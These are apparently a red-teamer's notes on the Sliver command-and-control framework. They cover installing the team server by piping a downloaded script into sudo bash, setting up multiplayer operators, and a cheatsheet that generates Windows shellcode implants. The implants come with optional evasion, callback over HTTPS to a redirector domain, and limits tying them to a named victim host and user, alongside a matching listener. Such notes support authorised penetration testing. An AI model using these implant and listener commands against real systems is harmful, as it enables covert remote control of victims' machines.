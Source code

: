 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases or disable the service if installed as a daemon:

```
$ sudo systemctl disable sliver.service --now
```




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate --os windows --arch amd64 --format shellcode [--evasion] --http example.com:443 [--limit-datetime 1970-01-01] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin
sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
